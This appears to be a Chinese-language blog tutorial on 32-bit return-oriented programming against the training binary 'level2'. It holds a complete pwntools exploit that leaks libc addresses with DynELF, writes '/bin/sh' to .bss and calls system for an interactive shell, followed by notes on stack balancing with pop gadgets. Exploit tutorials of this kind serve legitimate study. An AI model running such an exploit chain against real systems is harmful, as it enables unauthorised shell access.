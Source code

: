 ```yaml
---
title: rop32
date: 2018-08-21 17:50:21
tags:
---
```


蒸米哥的一步一步学rop
==================

**下面讲一下32为系统溢出注意点**
测试软件地址[https://github.com/tower111/softwroe.git](https://github.com/tower111/softwroe.git)


反编译结果是

{% asset_img image0002  %}

{% image0001 %}(image0001.png)


漏洞很明显了  这里只开了NX保护。


```
from pwn import *

elf=ELF("./level2")
plt_write=elf.plt["write"]
plt_read=elf.plt['read']
vulfun_addr=0x0804842D

def leak(address):
    payload1="a"*140+p32(plt_write)+p32(vulfun_addr)+p32(1)+p32(address)+p32(4)
    p.send(payload1)
    data=p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data

p=process("./level2")
#p=remote("127.0.0.1",1000)
d=DynELF(leak,elf=ELF('./level2'))
system_addr=d.lookup('system','libc')

print "system_addr="+hex(system_addr)

bss_addr=0x0804a018

pppr=0x080484bd

payload='a'*140+p32(plt_read)+p32(pppr)+p32(0)+p32(bss_addr)+p32(8)
payload+=p32(system_addr)+p32(vulfun_addr)+p32(bss_addr)


p.send(payload)
p.send("/bin/sh")
p.interactive()

```
这就是payload
**用pop来平衡堆栈，执行ret的时候rsp指向的位置的值会被执行（执行ret指针会移动）**
为什么要这样调整堆栈平衡呢，这就和调用约定有关了。程序每次返回都会调整自己的堆栈，把堆栈调整到call之前。
![image0003](http://i2.bvimg.com/659021/e9a28bdace20bcc0.png)
在这里体现出来就是leave和retn指令而程序返回之后在call外面把堆栈调整回来（不过这里图没有add esp而是直接利用了上次函数调用的时候分配出来的栈）
![image0004](http://i2.bvimg.com/659021/5f9173be7ce5af08.png)
每个call只会负责call出来的时候堆栈是平衡的，而让传进去的参数维持平衡只能靠外层函数。

所以我们构造payload需要找到三个pop来平衡堆栈而调用多少个pop就要看原来有多少个参数，需要谨记的一点就是无论什么时候ret都是把返回地址从esp里面弹出来。
